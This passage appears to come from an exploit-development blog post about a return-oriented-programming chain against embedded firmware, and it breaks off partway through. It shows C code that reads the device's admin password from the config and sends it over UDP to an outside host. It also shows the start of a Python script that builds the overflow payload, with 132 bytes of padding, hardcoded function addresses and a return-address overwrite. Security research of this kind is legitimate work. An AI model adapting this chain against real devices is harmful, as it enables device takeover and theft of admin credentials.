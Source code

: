 ```
-c
int sockfd;
struct sockaddr_in server_addr;
char* message = malloc(sizeof(char) * 100); // can be some heap address in our chain

// create a UDP socket
sockfd = socket(AF_INET, SOCK_DGRAM, 0);

// Get the admin password from the config
config_get(0x1010200, message);

// set up server address
memset(&server_addr, 0, sizeof(server_addr));
server_addr.sin_family = AF_INET;
server_addr.sin_port = htons(4900);
server_addr.sin_addr.s_addr = inet_addr("192.168.188.1");

// send message to server
sendto(sockfd, message, strlen(message), 0, (struct sockaddr *)&server_addr, sizeof(server_addr));
```

## Chain Breakdown

We begin the chain by creating a payload that will trigger the overflow, we can use the offsets we found in the previous blog to work out what registers will be filled - we don't care about what is in them right now, so we can just fill them with **0xdeadbeef**. _p32_ just packs the addresses correctly so they go into the registers as we would expect.

```
-python
# Function address
sendto_addr = 0x80128bc4
socket_addr = 0x801293d0
sleep_addr = 0x8019abac
connect_addr = 0x80129028
strlen_addr = 0x801a717c

# Padding
chain = b'a'*132

# Add the strings to the sX registers, and set the ra to first gadget
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0xdeadbeef) # s3
chain += p32(0x11e670 + base_address) # ra
```

### socket

**int socket(int domain, int type, int protocol);**
